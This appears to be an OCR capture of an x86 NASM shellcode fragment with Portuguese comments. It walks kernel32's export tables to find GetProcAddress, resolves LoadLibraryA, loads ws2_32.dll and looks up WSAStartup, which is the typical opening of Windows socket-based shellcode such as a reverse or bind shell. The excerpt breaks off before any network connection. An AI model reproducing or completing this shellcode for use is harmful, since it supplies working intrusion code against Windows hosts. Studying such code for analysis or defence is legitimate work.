 ```nasm
    add ecx, ebx                ;adicionado o endereço base da kernel32 para obter o endereço base de Export Name Pointer Table
    mov [ebp-4], ecx            ;movendo o endereço base de Export Name Pointer Table para a variavel [ebp-4]
    ;encontrando o endereço de Export Address table e armazenando em edx
    mov edx, [edx + 0x1c]       ;adicionando 0x1c para obter o RVA da Export Address Table
    add edx, ebx                ;adicionado o endereço base da kernel32 para obter o endereço base de Export Address Table

;encontrando o endereço da GetrProcAddress na kernel32.dll com loop
        xor eax, eax                    ;zerando o registrador para uso no loop
findproc:

    xor ecx, ecx            ;zerando o registrador para ser usado em comparações de string
    mov esi, esp            ;movendo GetrProcAddress da stack para esi
    mov edi, [ebp-4]        ;movendo o endereço base da Export Name Pointer Table para edi
    mov edi, [edi + eax*4]  ;endereço base da Export Name Pointer Table + valor ordinal * 4, edi = RVA do função buscada pelo nome
    add edi, ebx            ;adicionando o endereço base da kernel32 ao RVA da função
    add cx, 7               ;movendo o comprimento da string GetrProcAddress para cx: GetProcAddress = 14 bytes = 7 WORD
    repe cmpsw              ;compara o numero de WORDS no registrador cx da esquerda para direita com edi e esi, armazena a saída na flag ZF
    jz findaddr             ;pula para findaddr e quebra o loop se a flag ZE for TRUE
    inc eax                 ;incrementa o contador que contém o ordinal
    loop findproc           ;loop no findproc
findaddr:

    add eax, 2              ;aplicando a correção no contador de ebx
    mov edi, [edx + eax*4]  ;corrigindo o valor de edi
    add edi, ebx            ;adicione o endereço base do kerneldll32 ao endereço acima para obter o endereço GetProcAddress
    mov ebp, edi            ;carregando o endereço da GetProcAddress em ebp

loadLibraryA:

	xor ecx, ecx    ;zerando o registrador
	push ecx        ;enviando 0x0 como string terminator
	push 0x41797261 ;enviando Ayra para stack
	push 0x7262694c ;enviando rbiL para Stack
	push 0x64616f4c ;enviando daoL para stack
	push esp        ;enviando ponteiro da string para stack
	push ebx        ;enviando ponteiro da kernel32.dll para stack
	call ebp        ;chamando GetProcAddress("kernel32.dll", "LoadLibraryA")

ws2_32:

	push 0x4e4e3233              ;movendo NN32 para stack
	sub word [esp + 0x2], 0x4e4e ;removendo o "NN"
	push 0x5f327377              ;movendo _2sw para stack
	push esp                     ;movendo ponteiro para string para a stack
	call eax                     ;chamando LoadLibraryA(ws2_32)
	mov esi, eax                 ;salvando ponteiro para ws2_32 para uso recorrente

WSAStartup:

	push 0x4e4e7075              ;movendo NNpu para stack
	sub word [esp + 0x2], 0x4e4e ;removendo o "NN"
	push 0x74726174              ;movendo trat para stack
	push 0x53415357              ;movendo SASW para stack
	push esp                     ;movendo ponteiro da string para a stack
	push esi                     ;movendo ponteiro da ws2_32 para esi
	call ebp                     ;chamando GetProcAddress("ws2_32.dll", "WSAStartup")
```